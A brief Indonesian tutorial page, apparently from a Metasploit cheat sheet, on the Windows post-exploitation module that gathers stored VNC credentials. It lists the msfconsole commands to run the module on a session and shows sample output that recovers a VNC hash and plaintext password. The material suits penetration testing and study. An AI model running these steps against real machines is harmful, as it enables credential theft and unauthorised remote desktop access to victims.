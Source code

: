 # vnc

Modul `vnc` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengekstrak kredensial `VNC` (Virtual Network Computing) yang tersimpan pada sistem target, memungkinkan akses jarak jauh ke desktop korban melalui protokol `VNC`.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/credential/vnc
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Enumerating VNC passwords on ADMIN-PC
[*] Checking UltraVNC...
[*] Checking WinVNC3_HKLM...
[*] Checking WinVNC3_HKCU...
[*] Checking WinVNC3_HKLM_Default...
[*] Checking WinVNC3_HKCU_Default...
[*] Checking WinVNC_HKLM_Default...
[*] Checking WinVNC_HKCU_Default...
[*] Checking WinVNC4_HKLM...
[+] Location: WinVNC4_HKLM => Hash: 28ad591a62b4ad94 => Password: admin => Port: 5900
[*] Checking WinVNC4_HKCU...
[*] Checking RealVNC_HKLM...
[*] Checking RealVNC_HKCU...
[*] Checking TightVNC_HKLM...
[*] Checking TightVNC_HKLM_Control_pass...
[*] Checking RealVNC_S-1-5-21-2765859116-479268894-3296772954-1000...
[*] Checking WinVNC4_S-1-5-21-2765859116-479268894-3296772954-1000...
[*] Checking WinVNC_S-1-5-21-2765859116-479268894-3296772954-1000_Default...
[*] Checking WinVNC3_S-1-5-21-2765859116-479268894-3296772954-1000_Default...
[*] Checking WinVNC3_S-1-5-21-2765859116-479268894-3296772954-1000...
[*] Post module execution completed
```
